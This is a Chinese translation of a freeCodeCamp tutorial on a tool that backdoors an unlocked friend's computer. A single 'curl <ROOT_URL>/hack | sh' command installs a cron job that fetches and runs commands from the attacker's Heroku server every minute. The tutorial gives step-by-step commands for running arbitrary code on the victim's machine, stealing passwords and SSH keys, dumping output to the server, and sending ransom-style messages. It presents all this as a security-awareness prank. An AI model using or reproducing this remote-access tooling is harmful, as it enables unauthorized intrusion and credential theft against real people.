





# 如何黑你的朋友

> 原文：<https://www.freecodecamp.org/news/how-to-hack-your-friends-eef055389344/>

切特·科尔科斯

# 如何黑你的朋友


我的朋友经常让他们的电脑开着不上锁。我告诉他们应该养成锁电脑的习惯，但是他们不听我的。所以我创建了一个简单的项目来黑我的朋友，向他们展示计算机安全的重要性。

我所需要做的就是等待他们离开他们的计算机几秒钟，打开他们的终端，并键入一个简单的，简短的命令。



就是这样！他们的电脑现在被感染了，我可以在这台电脑上远程运行我想要的任何命令。很可爱，对吧？或者令人震惊？

黑客行为是非法的。具体来说:

> “未经授权故意访问计算机或超出授权访问权限”——《计算机欺诈和滥用法案》(18 U.S.C. 1030)

所以请记住，这篇文章的目的是向您展示恶意黑客攻击您是多么容易，这样您就可以避免自己被黑客攻击。

破坏你的生活并不需要什么黑客天才——任何可以物理访问你的计算机的“脚本小子”都可以通过下载一个仅包含 50 行代码的脚本来危害你。

### 获取设置

如果你想直接进入，这个项目的所有代码都在这个库中，但是我将在下面解释它是如何工作的。

首先，您只需要克隆 repo，安装它的依赖项，并符号链接 *hack* 命令行界面(CLI)工具。

```
git clone https://github.com/ccorcos/hack.gitgit remote remove origincd hacknpm installnpm link
```

接下来，您需要设置 Heroku 来托管将在您朋友的机器上运行的脚本。如果你以前从未用过 Heroku，[在这里注册](https://signup.heroku.com/)(是免费的！)并在您的机器上设置他们的 CLI 工具。

```
brew install heroku-toolbeltheroku login
```

现在在 *hack* repo 里面，创建一个名字容易记住的 Heroku 应用程序。我用的是*黑客-切特。*

```
heroku create hacker-chet
```

然后，您需要运行一个命令来做一些设置。它真正做的只是获取 Heroku 网站的根 url，并将其放入您的 *package.json* 中。这样，服务器可以将应用程序 url 注入到 shell 脚本中。

```
npm run init
```

如果您想自己动手测试，可以在本地启动服务器。

```
npm start
```

或者你可以部署到赫罗库。

```
npm run deploy
```

现在你已经准备好入侵了！

### Hack API

这个程序的美妙之处在于，要开始黑某人，你只需要在他们的机器上运行一个命令。

```
curl <ROOT_URL>/hack | sh
```

*ROOT_URL* 是应用程序的特定路径。当你在本地运行服务器时，它将是 *localhost:5000* ，当你部署到 Heroku 时，它将是类似于 *< APP_NAME >的东西。赫罗夸*pp.com。

它所做的是建立一个 cron 作业——一个在特定时间重新运行任务的“时序作业”——每分钟 ping 一次 */env/live* 端点，并将结果传送给 *sh* 。其实挺简单的！Heroku 免费给你 HTTPS，所以它是安全的，对吗？

一旦你黑了你的朋友，你就可以在你的电脑上用命令行工具做其他任何事情。

*hack* 工具有不同被黑环境的概念。当你使用 */hack* 端点攻击某人时，那个人开始进入 *live* 环境。对于每个环境，您可以运行各种不同的命令。我将通过一个小演示来演示一切。

下面的代码将重写 *live* 环境 shell 脚本，以执行下面的命令，该命令将大声说出“我正在观察您”

```
hack live exec "say 'I\'m watching you'"
```

现在还不行，你还得重新部署到你的 Heroku 应用上。

```
hack deploy
```



现在等待下一分钟，观察你朋友的电脑通过跟踪服务器日志来 ping 你的服务器。

```
hack logs
```



environments 的全部意义在于，你可以同时攻击多个人。要隔离不同环境的人，只需要换个名字就可以了。

```
hack live rename jon
```

下次 pinged 实时环境时，它将重写 cron 作业，开始 ping*Jon*环境。



你可以通过改变环境参数来做同样的事情。

```
hack jon exec "say 'hello jon'"
```

现在，如果你今天已经玩够了，聚会也结束了，你可以*忘记*乔恩，并向他保证你已经“摆脱”他了。

```
hack jon forget
```

这将从他们的计算机中删除 cron 作业。或者，您可能希望将此环境置于休眠模式，以便以后可以恢复它。

```
hack jon interval 1d
```

现在，不是每分钟 ping 你的服务器(默认)，而是每天午夜 ping 你的服务器。当你想唤醒它的时候，你可以把时间间隔改回每分钟，第二天，你就可以开始了！

```
hack jon interval 1m
```

其他有趣的事情是设置额外的 cron 作业。以下是你如何在每天早上 6 点叫醒你的朋友，提醒他关于计算机安全的事情。

```
hack jon cron "0 6 * * * say 'good morning jon, remember what I told you about locking your computer?'"
```

附:如果你不记得 cron 作业是如何工作的，[这是一个很好的资源](http://www.nncron.ru/help/EN/working/cron-format.htm)。一切都归结于这张小小的图表。

```
* * * * *| | | | || | | | || | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)| | | +------ Month of the Year (range: 1-12)| | +-------- Day of the Month  (range: 1-31)| +---------- Hour              (range: 0-23)+------------ Minute            (range: 0-59)
```

我最喜欢的一个是*桌面*预设，它将从给定的 URL 下载一张图片，并将其设置为背景照片。

```
hack jon preset desktop http://i.imgur.com/5FC2r9R.jpg
```

如果您已经编写了大量 cron 作业，但不知道其中有什么内容，您可以使用 dump 命令。

```
hack jon dump "crontab -l"
```

现在打开您的日志，您将在下一次 ping 中看到输出。这实际上是更加险恶的，因为你可以获得信息。如果您想变得更加邪恶，您可以搜索解密的密码或窃取他们的 ssh 密钥。

```
hack jon preset passwordshack jon preset ssh
```

但是如果你只是想给他一个老式的恐吓，给他发一条勒索信息吧！

```
hack jon preset ransom "Hello Jon, I told you not to leave your computer unlocked."
```



最后，如果您发现自己添加了一堆 cron 作业，并且只想重新开始，reset 可以提供帮助。

```
hack jon reset
```

现在去(负责任地)玩这个东西吧，通过[提交一个带有新命令或预置的拉请求](https://github.com/ccorcos/hack)，让我知道你最喜欢的恶作剧是什么！

黑客快乐！